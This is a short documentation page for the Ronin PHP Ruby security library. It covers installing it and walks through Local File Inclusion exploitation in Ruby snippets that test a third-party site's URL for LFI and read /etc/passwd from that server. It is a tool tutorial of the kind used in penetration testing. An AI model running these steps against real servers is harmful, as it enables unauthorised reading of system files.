 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


# Using Ronin PHP

The [Ronin PHP](/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Ruby Console, we must first
install the library. To install the Ronin Web library used in this guide,
simply run the following command:

    $ sudo gem install ronin-php

To start the Ronin Ruby Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

## Local File Inclusion (LFI)

Test a URL for LFI:

{% highlight ruby %}
url = URI('http://www.e-builds.com/?page=Portfolio')
url.has_lfi?
# => true
{% endhighlight %}

Obtain a [Ronin::PHP::LFI](/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

{% highlight ruby %}
lfi = url.first_lfi
{% endhighlight %}

Request a local file as a `String`:

{% highlight ruby %}
lfi.get('/etc/passwd')
{% endhighlight %}

Request a local file as a [Ronin::PHP::LFI::File](/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

{% highlight ruby %}
lfi.include('/etc/passwd')
# => #<Ronin::PHP::LFI::File:/etc/passwd>
{% endhighlight %}
